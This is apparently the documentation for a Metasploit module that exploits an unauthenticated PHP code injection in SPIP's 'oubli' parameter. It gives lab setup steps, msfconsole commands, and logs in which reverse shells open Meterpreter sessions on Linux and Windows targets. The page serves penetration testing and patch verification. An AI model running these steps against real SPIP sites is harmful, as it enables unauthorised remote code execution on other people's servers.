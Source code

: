 ## Vulnerable Application

This module exploits a PHP code injection in SPIP. The vulnerability exists in
the `oubli` parameter and allows an unauthenticated user to execute arbitrary
commands with web user privileges. Branches 3.2, 4.0, 4.1 and 4.2 are
concerned. Vulnerable versions are <3.2.18, <4.0.10, <4.1.18 and <4.2.1.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP GET request to `/spip.php`
page and fingerprints it either via the `generator` meta tag, or by the
`Composed-By` header.

This module has been successfully tested against SPIP version 4.0.0.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/spip-v4.2.0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp spip-v4.2.0.zip spip-site/ 
cd spip-site / 
unzip spip-v4.2.0.zip
```

Install php and the necessary extensions:

```
sudo apt install -y php-xml php-zip php-sqlite3
```

Serve the application (while in the newly created spip-site directory):

```
php -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/spip_rce_form`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options

No options

## Targets

### 0 (PHP In-Memory)

This uses an in-memory PHP payload to execute code.

### 1 (Unix/Linux Command Shell)

This executes a Unix or Linux command.

### 2 (Windows Command Shell)

This executes a Windows command.

## Scenarios
### SPIP 4.2.0 - Linux target - PHP In-Memory
```
msf6 exploit(multi/http/spip_rce_form) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: ZHsLFRQTGY9p0wCEbpT7JK7YhYzOupYuxRemHQ1KrmNOIonsgMLbNrmlewZfSwqzqLwjMMOcYBE5vNpVUt42LFLfKdJC9p94qg==
[*] 127.0.0.1:8000 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.36:36488) at 2024-08-22 15:01:39 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```

### SPIP 4.2.0 - Unix/Linux Command Shell

```
msf6 exploit(multi/http/spip_rce_form) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: ZHsLFRQTGY9p0wCEbpT7JK7YhYzOupYuxRemHQ1KrmNOIonsgMLbNrmlewZfSwqzqLwjMMOcYBE5vNpVUt42LFLfKdJC9p94qg==
[*] 127.0.0.1:8000 - Attempting to exploit...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.36:46044) at 2024-08-22 15:03:31 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### SPIP 4.2.0 - Windows Command Shell

```
msf6 exploit(multi/http/spip_rce_form) > run http://192.168.1.48

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: Z1kE0G5FLDrWkF9cvFp5ZuEKbtEjqIxoWTXL9HxYFP/xXeUohvYklG+kfLo32Cas24teZEJVX4e10CE5HEAjZ4HpM7VAUZoh
[*] 192.168.1.48:80 - Attempting to exploit...
[*] Sending stage (201798 bytes) to 192.168.1.48
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.1.48:50092) at 2024-08-22 14:59:16 +0200

meterpreter > sysinfo 
Computer        : DESKTOP-NHU31ET
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : fr_FR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
